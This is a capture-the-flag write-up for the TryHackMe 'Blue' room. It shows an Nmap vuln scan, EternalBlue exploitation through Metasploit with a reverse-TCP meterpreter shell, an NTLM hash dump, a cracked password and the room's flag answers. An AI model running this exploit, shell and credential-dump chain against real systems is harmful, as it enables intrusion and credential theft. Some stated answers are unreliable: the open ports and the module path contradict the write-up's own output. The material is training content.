






# <center>Blue</center>

Hello homies. Today we'll solve an easy room on Try Hack Me. I'll be guiding you through each task given in the room. lettuce Deploy & hack into a Windows machine, leveraging common misconfigurations issues 👿.

## Task 1 : Recon
Just click on `Start Machine` button presented in this task. This shall get your server running. You'll get the ip address in a minute. Then connect to Try Hack Me vpn and try to ping the ip address to check if you can successfull access the server.

Let' scan the machine using Nmap and then we will answer the questions based on out scanning.` nmap -A -T5 <ip address> --script vuln -Pn`
- -A: Agressive scan
- -T5: very fast scanning
- --script vuln: uses vuln script of nmap to discover vulnerabilities
- -Pn: supresses the ping request because teh description of room says that this machine does not respond to ping (ICMP).

```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -A -T4 10.10.231.72 --script vuln -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 12:21 IST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.231.72
Host is up (0.16s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.38 seconds
                                                                  
```

**Q1. How many ports are open with a port number under 1000?**
```text
From the scan we can see three ports (22,139 and 445) below 1000 are open.
```

**Ans: `3`**

**Q2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**
```bash
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

```

**Ans: `ms17-010`**

## Task 2 : Gain Access
In this writeup we will be solving the machine using metasploit. So let's start out metasploit console using command `msfconsole`.
and do the steps shown below:

**Q1. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

- `search ms17-010`


- `use exploit/windows/smb/ms17_010_eternalblue`

    ```bash
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    ```
**Ans: `exploit/windows/smb/ms12_010_eternalblue`**


**Q2. Show options and set the one required value. What is the name of this value? (All caps for submission)**
- `show options`


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.231.72
RHOSTS => 10.10.231.72
```
**Ans: `RHOSTS`**

For payload, by default getting meterpreter shell. So we don't need to do any funrther steps, just set palyload to windows/x64/meterpreter/reverse_tcp.
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST tun0`
- `run`  # this will execute out payload and get us a meterpreter tcp reverse shell


## Task 3 : Escalate

This task requires you to escalate your normal shell to meterpreter. But in our case, by default we got meter preter shell, so we don't need to do anything for escalation.

But anyway, if you land on a normal reverse shell, [follow this writeup to escalate to meterpreter shell](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)

Now let's check who are we logged in as. Type `shell` in meterpreter to get a shell and then use `whoami` command.
```bash
meterpreter > shell
Process 1968 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Okay, so we already are nt authority\system. So we don't need to migrate to any other process. else we would need to use command `migrate <pid>` to migrate to any process used by nt authority\system.

Now let's get back to out meterpreter shell. use `exit` command for this and you will land to your previous meterpreter shell.

## Task 4 : Cracking

In meterpreter shell, we have a command `hashdump` that dumps all the users and their password hashes. Let's try it out.
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

We got three users. and their hashes as well. And we are required to crack the Jon's password. let's copy the hash for Jon in a file hash.txt and use John the ripper to crack the password.



and we successfully got teh password for user Jon.

Alternatively, we can also copy the hashpart of password and give it to [hashes.com](https://hashes.com) and it will crack the hash for us.

**Q1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? **

**Ans: `Jon`**

**Q2. Copy this password hash to a file and research how to crack it. What is the cracked password?**

**Ans: `alqfna22`**

## Task 5 : Finding flags!

**Q1. Flag1? This flag can be found at the system root.**

```text
Since the flag is located in system root directory. Let's go to `C` drive and search for it
```


**Ans: `flag{access_the_machine}`**


**Q2. Flag2? This flag can be found at the location where passwords are stored within Windows.**

***Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.***

```text
By default, meterpreter shell has a search functionality that can help use search a file.
```


**Ans: `flag{sam_database_elevated_access}`**

**Q3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.**

```text
similarly, we can also search for flag3.txt.
```


**Ans: `flag{admin_documents_can_be_valuable}`**

---

And we have successfully found all the flags and solved this room. I hope you all enjoyed this and learnt something new. Until we meet again `:)`.